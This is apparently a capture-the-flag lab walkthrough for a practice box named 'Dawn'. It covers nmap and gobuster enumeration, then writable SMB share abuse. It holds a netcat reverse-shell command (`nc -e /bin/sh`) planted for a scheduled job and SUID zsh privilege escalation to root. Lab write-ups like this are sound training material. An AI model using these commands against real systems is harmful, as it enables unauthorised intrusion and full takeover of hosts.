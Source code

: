192.168.154.11

add 192.168.154.11 to /etc/hosts as dawn.pg

NMAP scan: nmap -sC -sV -vv 192.168.154.11
    ![](Screenshots/2022-10-10-08-08-35.png)

gobuster: gobuster web for web discovery using 2.3-medium.txt from seclist
    ![](Screenshots/2022-10-10-08-12-25.png)

/logs:
    ![](Screenshots/2022-10-10-08-13-02.png)

management.log:
    ![](Screenshots/2022-10-10-08-14-59.png)

Management.log is a pspy64 leak. Here we can see that there's scheduled file execution:

    "smbclient -L 192.168.154.11" 
shows that ITDEPT is a directory, so we can try to access it as guest.

    smbclient \\\\192.168.154.11\\ITDEPT

we can access it and also write to it, with the scheduled file execution we can get a shell

    echo "nc -e /bin/sh 0.0.0.0 4444" > production-control

Now upload production-control to the SMB set up a nc listener and wait.

We have a basic shell as dawn.

first flag secured!

    sudo -l 
reveals we have NOPASS execution ofn mysql, but running it doesn't really help us since we need root's pw.

    find / -perm /4000 2>/dev/null

Shows us that zsh is set as SUID

    /usr/bin/zsh -p
and we're root. Root flag secured.

 
    
